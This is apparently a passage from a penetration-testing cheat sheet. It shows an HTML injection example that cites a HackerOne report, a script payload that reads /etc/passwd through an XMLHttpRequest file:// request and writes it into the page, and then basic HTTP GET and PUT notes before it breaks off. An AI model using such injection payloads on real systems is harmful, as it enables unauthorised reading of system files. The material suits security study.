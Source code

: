 ## HTML Injection

> https://hackerone.com/reports/724153

```console
Filename<b>testBOLD</b>
```

### Skeleton Payload

```javascript
<script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///etc/passwd");
x.send();
</script>
```

## HTTP Request Methods

### HTTP GET

- Retrieve a single item or a list of items

```console
GET /v1/products/foobar
```

```console
$ curl -v -X GET -k https://example.com 80
```

#### Response

```console
<HTML>
  <HEAD>foobar</HEAD>
  <BODY>
    <H1>foobar</H1>
    <P>This is foobar</P>
  </BODY>
</HTML>
```
 
### HTTP PUT

- Update an item

```console
PUT /v1/users/123
```

#### Request Body
